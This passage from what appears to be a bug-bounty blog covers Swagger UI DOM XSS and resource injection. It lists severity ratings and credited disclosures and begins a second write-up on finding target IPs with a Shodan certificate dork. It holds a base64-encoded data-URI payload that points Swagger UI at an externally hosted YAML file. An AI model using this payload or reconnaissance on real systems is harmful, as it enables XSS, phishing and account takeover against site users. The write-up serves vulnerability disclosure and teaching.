 							Token POC

So that's the end of steps for now.

Some tips and tricks in some cases base64 encoded payload also does the trick, but I have seen only once or twice but still here is it for you.

```bash
ata:text/html;base64,eewoidXJsIjoiaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL1JpdmVrNjE5L1ItUGF5bG9hZHMtMTAxL3JlZnMvaGVhZHMvbWFpbi9Td2FnZ2VyVUkvcnRlc3QwLnlhbWwiCn0=
```

### Severity

1. **DOM XSS:** P2, High-Medium (Show Fake login page + Phishing page for impact as well)
2. **DOM XSS to Account Takeover:** P1-P2, Critical-High
3. **Resource Injection**: P3-P4, Medium-Low
4. **Resource Injection in Api field**: P4-P5, Low-Informational

### **Secured**

- **European Government (CERT-EU)**

![None](https://miro.medium.com/v2/resize:fit:700/1*0f_EtE9yy_hwoRC29xQQ2w.png)

![None](https://miro.medium.com/v2/resize:fit:700/1*l2r3hSybqqyGe9hDjqQAHA.jpeg)

**Hall of Fame**

- **Brazil Government**

![None](https://miro.medium.com/v2/resize:fit:700/1*ol_71UkXuiSlC24CYJ1AHw.png)

- _**National Diet Library (Japan)**_

![None](https://miro.medium.com/v2/resize:fit:700/1*KP1rZSqQ5jDlke581ziP9w.png)

---

## How I used shodan to discover 3 easy bugs on VDP program?

The Bugs is :

- Information disclosure marked as P1 (Critical)
- XSS && HTMLI On swagger UI
- Information Exposure Through Debug Information

**The Setup**

 first, I prepared shodan for search on the target domain IPs so used that dork :

```vb
Ssl.cert.subject.CN:"target.com"
```

And I got many and many numbers of Ips:
